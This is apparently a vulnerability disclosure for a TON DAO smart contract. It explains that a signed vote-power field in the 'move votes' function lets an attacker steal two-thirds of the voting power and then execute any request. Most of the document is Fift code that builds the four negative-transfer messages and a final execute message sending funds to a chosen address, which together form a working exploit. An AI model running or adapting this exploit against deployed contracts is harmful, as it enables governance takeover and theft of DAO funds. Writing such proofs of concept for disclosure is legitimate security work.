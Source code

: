 Accidentally `move votes` functionality contain an error: transferred vote power is a signed integer that allows stealing votes.

So, it is possible to steal 2/3 of all voting power and then execute any request. Code for generation of relevant messages to dao contract

```fift
"TonUtil.fif" include

<b 0x63a893dd 32 u, 0 64 u,
0 0x83DFD552E63729B472FCBCC8C45EBCC6691702558B68EC7527E1BA403A0F31A8 Addr,
-10000 256 i,
 b>
 2 boc+>B "dao-steal-1.boc" B>file
 
<b 0x63a893dd 32 u, 0 64 u,
0 0x21137B0BC47669B3267F1DE70CBB0CEF5C728B8D8C7890451E8613B2D8998270 Addr,
-10000 256 i,
 b>
 2 boc+>B "dao-steal-2.boc" B>file
 
<b 0x63a893dd 32 u, 0 64 u,
0 0xAD8AFECFACC248996885D8BE6824280F9F3A7E54C2F6080B7971B9F556C280C4 Addr,
-10000 256 i,
 b>
 2 boc+>B "dao-steal-3.boc" B>file
 
<b 0x63a893dd 32 u, 0 64 u,
0 0x001618D7CCAB90E4DD1CF7A9EC7594160137099BDD3D2D849A080BD61715493F Addr,
-10000 256 i,
 b>
 2 boc+>B "dao-steal-4.boc" B>file

<b 0x18 6 u, 0 0xAF352CEA598F3CAC47875D95896A949E6DFD32545FA541221D36672EAFECB306 Addr, 1 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message

<b 0x187abeff 32 u, 0 64 u,
 <b 128 8 u, message ref, b> ref,
b>
2 boc+>B "dao-execute.boc" B>file
```
